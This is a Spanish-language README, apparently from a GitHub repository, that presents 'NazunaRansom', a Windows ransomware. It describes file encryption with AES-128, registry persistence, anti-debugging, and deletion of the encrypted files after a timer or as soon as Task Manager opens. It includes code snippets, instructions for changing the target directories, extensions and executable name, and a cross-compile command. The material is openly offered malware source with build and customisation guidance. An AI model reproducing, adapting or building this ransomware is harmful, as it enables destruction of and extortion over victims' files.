 # NazunaRansom
NazunaRansom, es un ransomware inspirado en mi waifu (Nazuna)

### Caracteristicas

- Usa cifrado AES-128 en modo CBC
- Cambia el fondo de pantalla (descarga la imagen de internet)
- Cifra los archivos de un directorio y sus subdirectorios
- Implementa una persistencia basica basada en el registro para ejectuar el ransomware cuando se vuelva a prender la computadora
- Crea un hilo el cual tiene un temporizador de 5 minutos antes de que llame a una funcion para que se eliminen los archivos cifrados (el temporizador se reinicia al cerrar sesion o apagar la computadora)
- Si se abre el administrador de tareas los archivos se eliminan inmediatamente
- Se implementa CheckRemoteDebuggerPresent como tecnica anti depuracion
- Se implementa una exclusion mutua (mutex) para que si la computadora ya fue infectada, no vuelve a crear otro proceso
- La key para cifrar los archivos esta intencionalmente creada para que sea la misma secuencia del 0 al 15

### Funciones de cifrado

**CryptAcquireContext**

```c
if (!CryptAcquireContext(&hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, 0)) {
    if (!CryptAcquireContext(&hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_NEWKEYSET)) {
        return FALSE;
    }
}
```
En el primer if trata de obtener el identificador del contenedor CSP, ```hProv``` funciona como un puntero que almacena el identificador CSP, si no se puede obtener el identifcador se vuelva a llamar a ```CryptAcquireContext``` con ```CRYPT_NEWKEYSET``` para crear un contenedor de claves en CSP

**CryptGenKey**

```c
CryptGenKey(hProv, CALG_AES_128, CRYPT_EXPORTABLE, &hkey);
```
Genera una key AES-128 de acuerdo al identificador del CSP y la key la almacena en ```hkey```

**CryptEncrypt**

```c
CryptEncrypt(hkey, 0, TRUE, 0, buf, &bytes_leer, BUF_LEN);
```
Cifra los datos de acuerdo al CSP, ```buf``` es un puntero al buffer datos que contiene los datos que se van a cifrar, ```bytes_leer``` es la cantidad de bytes que se van a cifrar, que son los bytes del archivo original, este buffer cifrado se sobreescribira por el original con unas funciones más adelante

### Funcion recorrer_dir

Las funciones ```FindFirstFile``` y ```FindNextFile``` se usan para recorrer el directorios y subdirectorios desde la ruta almacenada en ```ruta_encriptar```, el segundo if verifica si ```ruta_data``` es un directorio mediante el AND y ```FILE_ATTRIBUTE_DIRECTORY```, el tercer if usando ```strcmp``` se compara ```ruta_data.cFileName``` con ```.``` y ```..``` para ver si ```ruta_data``` se refiere al directorio actual(.) o al directorio padre(..), si es diferente de 0(que no corresponde a ninguno de los dos) y se cumple la condicion anterior, se crea una variable llamada ```subruta_recorrer``` la cual representa la ruta del subdirectorio que se va a recorrer y la agrega a ```subdirectorios```.

El penultimo if representa las extensiones y hace un ```OR``` entre todas las extensiones, si encuentra una extension entrara al ultimo if el cual verifica si ```cifrar_archivos``` regresa ```true```, y en caso de que si, cambia la extension del archivo a .Nazuna y lo renombra con esa extension

### Funcion eliminar_archivos_cifrados

Tiene un funcionamiento similar a recorrer_dir, solo que se verifica si la extension es igual a .Nazuna (```extension == ".Nazuna"```), y en caso de que si sea, se elimina el archivo

### Funcion persistencia

Es la que se encarga de que el ransomware de inicie al prender la compu e iniciar sesion, simplemente usa ```RegOpenKeyEx``` para abrir el registro en la ruta almacenada en ```lpSubKey``` y despues usa ```RegSetValueEx``` para establecer una entrada el registro, donde ```lpValue``` es la ruta del ejecutable, y ```lpValueName``` es el nombre del ejecutable.

### Funcion eliminar_archivos_routine

Es la funcion que se ejecutara al crear un hilo con ```CreateThread```, el parametro ```lpParam``` indica la ruta del directorio que se va a recorrer para eliminar los archivos, despues se agrega un pequeño temporizador de 5 minutos para "detener" la ejecucion del hilo 5 minutos antes de llamar a ```eliminar_archivos_cifrados```

### Detectar al administrador de tareas

Dentro del main cuando se hace uso de ```CreateThread```, si el identificador del hilo es diferente de NULL (hThread != NULL) entra en un bucle infinito donde mediante un if y la funcion ```FindWindowA``` esta constantemente buscando por la ventana con el nombre ```TaskManagerWindow``` y cuando la encuentre manda a llamar a ```eliminar_archivos_cifrados```

### Modificaciones

Dentro de la funcion ```recorrer_dir``` puedes especificar las extensiones de los archivos que quieres que se cifren:

```c
if (extension == ".txt" || extension == ".cpp" || extension == ".pdf" || extension == ".docx" || extension == ".xlsx")
```

En la funcion ```main``` puedes especificar otro directorio que se va a cifrar

```c
string ruta = filesystem::path(string(getenv("USERPROFILE")) + "\\Desktop").string();
```
Solo modifica ```Desktop``` por otra, ej: ```Documents```

En la funcion routine ```eliminar_archivos_routine``` le puedes indicar el tiempo en minutos que deseas que espere antes de borrar los archivos

```c
this_thread::sleep_for(chrono::minutes(1)); <-- El numero indica los minutos
```

Puedes cambiar el valor del mutex por otro que no este en uso

```c
#define MUTEX "TeAmoNazuna" --> #define MUTEX "otroValor"
```

En la funcion ```persistencia``` se ejecuta el ransomware desde la ruta Downloads con el nombre ```NazunaRansom```, puedes cambiar la ruta indicandolo en:

```c
string ruta_descarga = filesystem::path(string(getenv("USERPROFILE")) + "\\Downloads").string();
```

Y puedes cambiar el nombre del ejecutable en:

```c
LPCSTR lpValueName = "NazunaRansom";
```

### Compilado
Yo lo compile desde GNU/Linux con el comando

```bash
x86_64-w64-mingw32-g++ -o NazunaRansom NazunaRansom.cpp -lbcrypt -static -static-libgcc -static-libstdc++ -lurlmon
```

![](https://github.com/ic4rta/NazunaRansom/blob/main/Nazuna_Ransom_Fondo.jpg)
